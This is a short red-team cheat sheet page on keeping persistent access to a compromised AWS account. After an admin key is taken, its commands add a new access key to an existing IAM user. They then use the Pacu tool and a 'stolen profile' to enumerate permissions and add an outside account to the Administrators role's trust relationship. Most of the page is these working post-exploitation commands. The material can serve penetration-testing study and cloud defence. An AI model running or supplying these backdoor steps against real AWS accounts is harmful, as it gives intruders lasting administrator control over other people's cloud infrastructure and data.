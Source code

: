 # AWS

## AWS Persistence technique

* AWS IAM user can have 2 access keys
  * Admin access can add second key for other users
  * An alert is triggered in case of key replacement \(avoid 2keys user ...\)
* trust relationship \(**temp creds to access a resource**\)
  * sts:AssumeRole depending on policies, a user can make a temp credential request to get access to a user and/or a resource
  * Definied in IAM policy \(1hour lifespan\)

![](../../../../.gitbook/assets/10ca94c1847b45168dffd105d2ed03fb.png)

### 

### Backdoor an AWS account

After compromising admin key, we can add a key to an existing account.

* **list iam users**

```csharp
aws iam list-users --profile Admin
```

![](../../../../.gitbook/assets/14820c66c74b4107b5005b15dc09c8bb.png)

* **list users key \(one key user\)**

```csharp
aws iam list-access-keys --user-name BackupAdmin --profile Admin
```

![](../../../../.gitbook/assets/12065357fb154f92ab4898d5301a9df6.png)

* **Create a new access key on the target account**

```csharp
aws iam create-access-key --user-name BackupAdmin --profile Admin
```

![](../../../../.gitbook/assets/530825ef9de94eb6bf6e08e9f7985762.png)

* **List keys**

![](../../../../.gitbook/assets/62f7fc662cba4b0e8d1d2f967ce1f1d4.png)

* **Configure a session for the backdoored account and access AWS** 

```csharp
aws sts get-caller-identity --profile BackupAdmin
```

![](../../../../.gitbook/assets/3b4ce16ab03e4c1b8f4ef3d0122c70eb.png)

### External user - Cross account Persistence

* Create a trust relationship with an entity outide the AWS account
* Retrieve your extenal ARN value

```csharp
aws sts get-caller-identity --profile testuser
```

![](../../../../.gitbook/assets/693ab30f94384c94a1e585eb611d922f.png)

* Launch pacu and import stolen profile key

![](../../../../.gitbook/assets/bc6021a0c4a14e7287f6877eada3b0bc.png)

![](../../../../.gitbook/assets/c4c7d603b61c4c4ca01446d7a85c2d58.png)

* Enumerate users-roles

```csharp
run iam__enum_users_roles_policies_groups
```

![](../../../../.gitbook/assets/b4348006b5af457a8cb331c9a6e4db5e.png)

```csharp
run iam__enum_permissions whoami
```

![](../../../../.gitbook/assets/24b0f054fb6b428e91198b726ebffe6d.png)

* Backdoor the account using the external one

```csharp
run iam__backdoor_assume_role --role-names Administrators --user-arns arn:aws:redacted
```

![](../../../../.gitbook/assets/aad75fc87cc5439fbe7f2667bd2018b7.png)

* Check roles \(backdoored must be in now\)

```csharp
aws iam get-role --role-name Administrators --profile StolenProfile
```

![](../../../../.gitbook/assets/828b4e2eff3945c1b356e1002072f92f.png)

```csharp
aws sts assume-role --role-arn arn:aws:iam::REDACTED:role/Administrators --role-session-name test --profile testuser
```

### Resource

{% embed url="https://github.com/RhinoSecurityLabs/pacu" %}

